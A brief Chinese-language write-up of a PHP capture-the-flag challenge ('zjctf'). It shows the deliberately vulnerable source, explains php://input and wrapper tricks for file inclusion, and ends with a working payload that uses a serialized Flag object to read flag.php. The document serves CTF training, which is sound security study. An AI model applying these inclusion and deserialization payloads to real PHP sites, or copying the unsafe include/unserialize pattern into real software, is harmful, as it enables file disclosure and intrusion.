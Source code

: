 ```
 <?php  
$text = $_GET["text"]；
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?> 
```

`file_get_contents`可以利用`php://input`绕过，然后要利用伪协议读取useless.php文件

![](https://img.npfs06.top/20210307164311.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

base64解码后

```php
<?php  

class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  

```

很简单的反序列化

最终payload

```
?text=php://input&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}

POST:welcome to the zjctf
```
